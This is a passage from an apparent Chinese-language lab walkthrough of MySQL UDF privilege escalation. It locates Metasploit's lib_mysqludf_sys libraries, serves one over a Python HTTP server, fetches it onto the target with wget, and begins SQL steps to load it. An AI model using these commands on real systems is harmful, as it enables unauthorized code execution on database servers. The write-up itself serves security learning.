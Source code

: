 注意：mysql的动态链接库是加密过的，需要解密才能使用。搜索一下metasploit动态链接库文件在哪里

#### 寻找动态链接库

```
locate metasploit-framework|grep data/exploits/mysql
```

这里要使用lib_mysqludf_sys_64.so

```
/usr/share/metasploit-framework/data/exploits/mysql
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so

```

![image-20220301192926735](https://gitee.com/xxb667/img/raw/master/img/image-20220301192926735.png)

## 3.5 下载动态链接库到靶机

- 拷贝到桌面
- 使用python搭建http服务
- 使用shell下载到靶机

 使用的命令

```
cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so /home/xxb1/桌面  #复制到桌面

python3 -m http.server 8000  #开启临时http服务
```

![image-20220301193724655](https://gitee.com/xxb667/img/raw/master/img/image-20220301193724655.png)

### shell里面的操作

```
wget http://192.168.81.131:8000/lib_mysqludf_sys_64.so
```

![image-20220301193840076](https://gitee.com/xxb667/img/raw/master/img/image-20220301193840076.png)

执行sql语句

进入mysql数据库

```
use mysql;
```

### 创建数据表myfunc

```
create table myfunc(line raw);
```
